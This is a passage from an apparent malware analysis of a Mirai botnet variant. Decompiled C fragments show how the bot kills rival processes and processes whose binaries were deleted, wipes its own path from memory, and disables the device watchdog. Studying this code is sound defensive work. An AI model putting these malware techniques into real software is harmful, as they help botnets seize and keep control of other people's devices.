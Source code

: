 ```c
                mw_encrypt_with_key(0x1e);
...
```

It also searches for other processes (config ID 0x21..0x3a) and tries to kill them as well, but they are encrypted with key `0xdeadbeef` so decrypting them with `0xdedefbaf` results in garbage strings. For this reason this useless code is not shown here but the original implementation can be found [here](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/killer.c#L494).

It also looks for other processes that have their binary deleted which is often a sign of malware that tries to hide itself. 

```c
void mw_init_killer(void)

{
...
                iVar4 = mw_getpid();
                if (((pid == iVar4) || (iVar4 = mw_getppid(), pid == iVar4)) ||
                   (iVar4 = mw_strcmp(realpath,killer_realpath), iVar4 != 0)) break;
                iVar4 = mw_open(realpath,0);
                if (iVar4 == -1) {
                  mw_kill(pid,9);
                }
                mw_close(iVar4);
...
```

At the end it zeroes out `exe_path` because other processes might scan the memory as well.

```c
void mw_init_killer(void)

{
...
  mw_memset_zero(exe_path,0x40);
...
```

### `mw_watchdog_handler`

`mw_watchdog_handler` disables the watchdog and keeps sending keepalives (in case the disabling did not work).

```c
void mw_watchdog_handler(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 flags;
  
  DAT_00020da4 = mw_fork();
  if (0 < DAT_00020da4 || DAT_00020da4 == -1) {
    return;
  }
  flags = WDIOS_DISABLECARD;
  mw_decrypt_with_key(0x17); // /dev/watchdog
  mw_decrypt_with_key(0x18); // /dev/misc/watchdog
  uVar1 = mw_get_table_entry(0x17,0);
  iVar2 = mw_open(uVar1,2);
  if (iVar2 == -1) {
    uVar1 = mw_get_table_entry(0x18,0);
    iVar2 = mw_open(uVar1,2);
    if (iVar2 == -1) {
      mw_encrypt_with_key(0x17);
```